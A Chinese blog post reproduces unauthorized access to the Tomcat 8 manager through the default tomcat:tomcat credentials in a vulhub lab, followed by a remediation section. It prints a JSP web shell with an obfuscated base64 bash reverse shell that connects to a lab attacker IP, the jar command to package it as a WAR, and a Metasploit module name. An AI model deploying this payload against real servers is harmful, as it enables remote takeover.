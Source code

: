 ```yaml
---
layout: post
title: "Tomcat8 未授权访问漏洞复现"
date: 2022-01-24
author: 2hanx
toc: true
categories: [漏洞复现]
tags: ["Tomcat"]
---
```


### 漏洞介绍

在 Tomcat8 环境下默认进入后台的密码为 *tomcat:tomcat* ，未修改造成未授权访问后台，不过文章的侧重点在于部署 war 远程部署并反弹 shell。

### 漏洞危害

1. 弱口令；
2. 弱口令登录后台通过上传 war 包达到 RCE。

### 漏洞原理

在 tomcat8 环境下默认进入后台的密码为 *tomcat:tomcat* ，未修改造成未授权访问后台，配置文件：`/usr/local/tomcat/conf/tomcat-user.xml` 大致为：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

    <role rolename="manager-gui"/>
    <role rolename="manager-script"/>
    <role rolename="manager-jmx"/>
    <role rolename="manager-status"/>
    <role rolename="admin-gui"/>
    <role rolename="admin-script"/>
    <user username="tomcat" password="tomcat" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" />
    
</tomcat-users>
```

### 环境搭建

照例通过 vulhub 上的 docker 环境进行复现，使用 `docker-compose` 命令配置环境即可。

| 计算机 | IP                |
| ------ | ----------------- |
| Kali   | `192.168.174.128` |
| Win10  | `192.168.174.1`   |
| Victim | `192.168.174.141` |

### 漏洞复现

配置好环境后访问 Victim 的 *8080* 端口，看到 Tomcat 的版本是 **8.0.43**。

![1]({{ '/tomcat3/1.png' | prepend: site.url }})

接下来通过 *tomcat:tomcat* 弱口令登录后台，并上传 war 包。

![2]({{ '/tomcat3/2.png' | prepend: site.url }})

下一步就是使用 `jar` 工具将 jsp 脚本打包成 war 包，执行命令：`jar -cvf revshell.war ./revshell.jsp`

```jsp
<%
    java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvODg4OCAwPiYx}|{base64,-d}|{bash,-i}").getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
%>
```

一旦上传部署成功，就会在 *Applications* 处看到访问路径。

![3]({{ '/tomcat3/3.png' | prepend: site.url }})

此时 Kali 在监听 **8888** 端口后即可接收到反弹的 shell 。

![4]({{ '/tomcat3/4.png' | prepend: site.url }})

或者使用 MSF 的 `exploit/multi/http/tomcat_mgr_upload ` 模块

![5]({{ '/tomcat3/5.png' | prepend: site.url }})

### 修复建议

1. 修改 *tomcat-user.xml* 中的密码；
2. 升级最新版本。

### 总结

1. Tomcat 部署 war 包，并反弹 shell。

